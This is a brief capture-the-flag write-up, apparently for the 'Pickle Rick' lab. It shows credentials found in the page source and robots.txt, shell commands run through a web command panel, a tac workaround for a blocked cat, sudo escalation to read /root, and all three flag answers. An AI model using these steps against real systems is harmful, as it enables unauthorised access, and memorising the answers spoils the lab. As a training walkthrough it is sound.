# Pickle rick write up
Scan ports web



We can only read the website 



use Ctrl u to see source code there we can find R1ckRul3s

 

To find the directories or files we are using ffuf




We find robots.txt containing Wubbalubbadubdub

Go to login.php enter user R1ckRul3s pass Wubbalubbadubdub 



At the command panel start with ls 



cat Sup3rS3cretPIckl3Ingred.txt 



not working try tac Sup3rS3cretPIckl3Ingred.txt result mr meeseek hair



tac clue.txt it reads Look around file system for the other ingridient 



Attempt ls /home/ shows rick

 

ls /home/rick result second ingridients



then tac home/rick/''second ingredients'' 1 jerry tear



Permissions sudo -l  (ALL) NOPASSWD: ALL no password needed



Go to sudo ls /root/



sudo tac /root/3rd.txt fleeb juice



finished